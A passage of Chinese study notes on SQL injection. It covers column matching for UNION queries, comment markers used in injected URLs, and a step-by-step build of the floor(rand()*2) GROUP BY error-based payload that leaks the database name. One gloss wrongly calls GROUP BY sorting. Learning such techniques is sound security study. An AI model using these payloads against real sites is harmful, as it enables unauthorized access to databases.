 出现一个内容和列名都一样的东西

表中/提取的东西只有多少列，那么后面跟的select的东西只有多少个

\ 转义字符
把自己后面第一个字符当作字符串
`x\' == 字符串的x'`

注释符：

```
--+ （大都数用在get情况，因为get情况下地址栏+等于空格）
/**/
#
select count(*) from users;
```

计算一下有多少个结果

```
select rand();
```

取0-1之间的随机数

```
select floor(1.99);
```

向下取整

```
select floor(rand()*2);
```

取0-1之间的随机整数

```
select * from users group by id;
```

用id进行排序

```
select concat(1,2,3);
```

连接内容

0x3a => :

```
select concat(0x3a,0x3a,(database()),0x3a,0x3a)a;
```

查询数据库库名，并且取名为a

```SQL
select concat(0x3a,0x3a,(database()),0x3a,0x3a,floor(rand()*2))a;

select floor(rand()*2) from information_schema.columns;

select concat(0x3a,0x3a,(database()),0x3a,0x3a)a;

select concat(0x3a,0x3a,(database()),0x3a,0x3a,floor(rand()*2))a from information_schema.columns group by a;

select count(*),concat(0x3a,0x3a,(database()),0x3a,0x3a,floor(rand()*2))a from information_schema.columns;

select count(*),concat(0x3a,0x3a,(database()),0x3a,0x3a,floor(rand()*2))a from information_schema.columns group by a;
a=concat(0x3a,0x3a,(database()),0x3a,0x3a,floor(rand()*2))
```
